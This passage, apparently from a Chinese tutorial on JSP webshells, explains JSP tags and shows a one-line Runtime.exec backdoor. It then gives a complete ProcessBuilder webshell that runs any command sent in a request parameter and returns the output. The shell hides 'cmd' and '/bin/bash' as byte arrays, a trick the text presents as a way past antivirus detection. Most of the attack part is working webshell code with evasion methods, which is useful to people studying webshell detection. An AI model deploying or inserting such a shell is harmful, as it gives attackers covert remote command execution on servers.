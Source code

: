 ### 0x02：JSP标签

 在JSP页面中嵌入java代码，需要正确的使用JSP标签，这里顺带提一下。

```jsp
<%@ %>    页面指令，设定页面属性和特征信息
<% %>     java代码片段，不能在此声明方法
<%! %>    java代码声明，声明全局变量或当前页面的方法
<%= %>    Java表达式
```

### 0x03：用ProcessBuilder绕过检测

先看一个简单原始的执行系统命令的后门：

`<%Runtime.getRuntime().exec(request.getParameter("i"));%>`

接收请求参数**i**传递的命令字符串，然后使用Runtime对象的exec()方法执行该命令。特点是命令无回显，会被杀。

"Runtime"、"exec"字符串过于显眼，基本都会被查杀软件检测到。所以，可以使用ProcessBuilder类建立一个不那么轻易被杀的命令执行后门，命名为[ProcessBuilder-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/ProcessBuilder-cmd.jsp)：

```jsp
<%@ page pageEncoding="utf-8"%>
<%@ page import="java.util.Scanner" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>
<FORM METHOD="POST" NAME="form" ACTION="#">
    <INPUT TYPE="text" NAME="q">
    <INPUT TYPE="submit" VALUE="Fly">
</FORM>

<%
    String op="Got Nothing";
    String query = request.getParameter("q");
    String fileSeparator = String.valueOf(java.io.File.separatorChar);
    Boolean isWin;
    if(fileSeparator.equals("\\")){
        isWin = true;
    }else{
        isWin = false;
    }

    if (query != null) {
        ProcessBuilder pb;
        if(isWin) {
            pb = new ProcessBuilder(new String(new byte[]{99, 109, 100}), new String(new byte[]{47, 67}), query);
        }else{
            pb = new ProcessBuilder(new String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new String(new byte[]{45, 99}), query);
        }
        Process process = pb.start();
        Scanner sc = new Scanner(process.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
    }
%>

<PRE>
    <%= op %>>
</PRE>
</BODY>
```